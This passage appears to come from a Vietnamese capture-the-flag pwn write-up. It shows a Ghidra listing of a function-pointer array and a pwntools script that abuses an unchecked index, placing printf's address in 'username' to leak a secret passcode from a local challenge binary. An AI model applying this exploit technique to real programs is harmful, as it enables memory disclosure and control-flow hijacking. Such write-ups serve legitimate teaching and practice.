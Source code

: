 ```
                             conv                                            XREF[3]:     Entry Point(*), main:0040161d(*),
                                                                                          main:00401624(*)
        00404010 e1 12 40        undefine
                 00 00 00
                 00 00 2c
           00404010 e1              undefined1E1h                     [0]           ?  ->  004012e1     XREF[3]:     Entry Point(*), main:0040161d(*),
                                                                                                                     main:00401624(*)
           00404011 12              undefined112h                     [1]
           00404012 40              undefined140h                     [2]
           00404013 00              undefined100h                     [3]
           00404014 00              undefined100h                     [4]
           00404015 00              undefined100h                     [5]
           00404016 00              undefined100h                     [6]
           00404017 00              undefined100h                     [7]
           00404018 2c              undefined12Ch                     [8]           ?  ->  0040132c
           00404019 13              undefined113h                     [9]
           0040401a 40              undefined140h                     [10]
           0040401b 00              undefined100h                     [11]
           0040401c 00              undefined100h                     [12]
           0040401d 00              undefined100h                     [13]
           0040401e 00              undefined100h                     [14]
           0040401f 00              undefined100h                     [15]
```

Mảng `conv` chứa 15 phần tử, ta có thể thực hiện cách `trial-and-error` xem coi ở offset nào thì thú vị. Nhưng có cách khác hay hơn đó là nhớ đến thằng `username` ban đầu, 1 điều thú vị là `username` và `passcode` đều nằm trong mảng `conv`. Nên ta có thể sử dụng offset của thằng username, đưa địa chỉ 1 thằng nào đó vô, sau đó lát nữa gọi ra dùng `guess1` thì nó sẽ thực hiện cái địa chỉ đang chứa trong `username`.

```
from pwn import *

p = process('./chall')


e = ELF('./chall')
offset = (e.sym['username'] - e.sym['conv']) / 8 + 1
```

Bằng cách này, ta sẽ tìm ra được offset của thằng `username` trong mảng `conv`, lý do + 1 là bởi vì `guess1 + -1` trong `(**(code **)(conv + (guess1 + -1) * 8))(guess2);`, tiếp đến, ta cần biết nên đặt gì ở `username`. Thì để có thể leak ra giá trị passcode, ta sẽ có thể sử dụng `printf`, `puts`, ở đây mình chọn `printf`.

```
from pwn import *

p = process('./chall')


e = ELF('./chall')
offset = (e.sym['username'] - e.sym['conv']) / 8 + 1

printf_address = e.plt['printf']
# Put printf in username
p.sendlineafter(b'> ', p64(printf_address))
p.sendlineafter(b'> ', str(offset))
p.sendlineafter(b'>> ', str(e.sym['passcode']))

passcode = u64(p.recvn(8))
```